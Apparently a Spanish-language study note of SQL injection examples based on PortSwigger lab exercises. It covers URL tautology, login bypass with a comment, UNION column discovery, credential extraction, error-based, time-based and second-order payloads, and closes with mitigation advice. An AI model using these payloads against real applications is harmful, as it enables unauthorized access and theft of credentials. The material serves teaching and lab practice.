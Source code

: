 # Ejemplos Prácticos de Inyección SQLi

## Listar contenido oculto

Para seguir el laboratorio visitar [Portswigger](https://portswigger.net/web-security/all-labs)

Una forma común de probar la [SQLi](SQLi.md) es modificar una URL para extraer datos que normalmente estarían ocultos.

```url
https://web-security-academy.net/filter?category=Pets%27+OR+1=1--
```
**Explicación:**
- `%27` es la codificación URL de `'` (comilla simple).
- `OR 1=1` siempre se evalúa como verdadero.
- `--` comenta el resto de la consulta SQL, evitando errores.

---

## Evadir Login con *Bypass*
Un atacante puede omitir la autenticación proporcionando entradas manipuladas en un formulario de inicio de sesión.

```txt
Login:

Username: administrator' --
Password: lo_que_sea
```
**Explicación:**
- `' --` cierra la consulta y comenta la parte de la contraseña, permitiendo acceso sin necesidad de conocerla.
- Funciona si la consulta es:
  ```sql
  SELECT * FROM usuarios WHERE usuario = 'administrator' AND clave = 'lo_que_sea';
  ```
  Pero se transforma en:
  ```sql
  SELECT * FROM usuarios WHERE usuario = 'administrator' -- ' AND clave = 'lo_que_sea';
  ```

---

## Obtener cantidad de columnas para ataques UNION
Se necesita conocer el número de columnas en la tabla antes de usar `UNION`.

```sql
ORDER BY 1 --
ORDER BY 2 --
ORDER BY 3 --  (Aumentar hasta que ocurra un error)
```
**Explicación:**
- `ORDER BY n` ayuda a determinar el número de columnas disponibles en la consulta.

---

## Encontrar columnas con tipos de datos útiles

```sql
UNION SELECT NULL, NULL, 'texto' --
```
**Explicación:**
- Se prueba con `NULL` hasta encontrar una columna donde se puede inyectar texto.

---

## Extraer usuarios y contraseñas

```sql
UNION SELECT username, password FROM users --
```
**Explicación:**
- Se usa `UNION` para extraer datos de la tabla `users`.

---

## SQLi basada en errores
Algunas bases de datos devuelven mensajes de error útiles que pueden revelar información.

```sql
' AND 1=CAST((SELECT clave FROM usuarios LIMIT 1) AS INT) --
```
**Explicación:**
- Intenta forzar un error al castear `clave` como entero.
- Si ocurre un error, significa que la columna existe.

---

## SQLi basada en tiempo (Blind SQL Injection)
Si no se obtiene respuesta directa, se pueden usar retrasos de tiempo.

```sql
' OR IF(1=1, SLEEP(5), 0) --
```
**Explicación:**
- Si la consulta es vulnerable, el servidor tardará 5 segundos en responder.

---

## SQLi de Segundo Orden
Se inyecta un payload en un lugar que no se ejecuta inmediatamente, sino en otro proceso posterior.

1️. Registro de usuario con payload malicioso:
```txt
Nombre: hacker'; INSERT INTO logs (mensaje) VALUES ('ataque exitoso'); --
```
2️. Cuando un administrador revisa los registros, se ejecuta la inyección.

**Explicación:**
- El ataque se ejecuta en otro punto de la aplicación, no inmediatamente.

---

## Cómo mitigar estos ataques
Usar **consultas preparadas** con parámetros seguros:
```sql
SELECT * FROM usuarios WHERE usuario = ? AND clave = ?;
```

**Escapar y validar entradas** del usuario.
**Restringir privilegios** de las cuentas de base de datos.
Implementar **WAFs** y herramientas de detección de ataques.

---

**Conclusión:** Estos ejemplos muestran lo peligroso que puede ser SQLi si no se implementan medidas de seguridad adecuadas.
